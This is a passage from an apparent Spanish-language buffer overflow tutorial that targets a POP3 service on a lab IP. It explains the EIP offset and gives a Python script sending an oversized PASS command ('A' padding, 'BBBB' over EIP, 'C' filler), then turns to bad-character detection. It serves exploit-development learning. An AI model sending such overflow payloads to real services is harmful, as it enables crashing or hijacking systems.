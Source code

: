 ### Esta herramienta nos devuelve un número el cual nos indica la cantidad de caracteres previos a que se sobrescriba el valor del registro EIP. Pudiendo así saber exactamente cuando y como hacer para manipular este mismo a gusto. 

### Una vez conseguido el offset, podríamos actualizar el script: 

```python
#!/usr/bin/python3 

import socket
import sys 

ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"BBBB"
after_eip = b"C"*200

payload = b'PASS ' + before_eip + eip + after_eip

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #\r\n manera de simular ENTER
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()

```

### Agregando 4654 "A" las cuales sobrescribren y pausan el programa, los siguientes 4 caracteres "B" pertenecerían al registro EIP y posteriormente 200 caracteres "C" para ver como se sobrescribe (En este caso, el registro ESP) 

### De esta manera deberíamos generar un  **byte array**, es decir todas las combinaciones posibles de bytes para posteriormente detectar los **badchars**. 
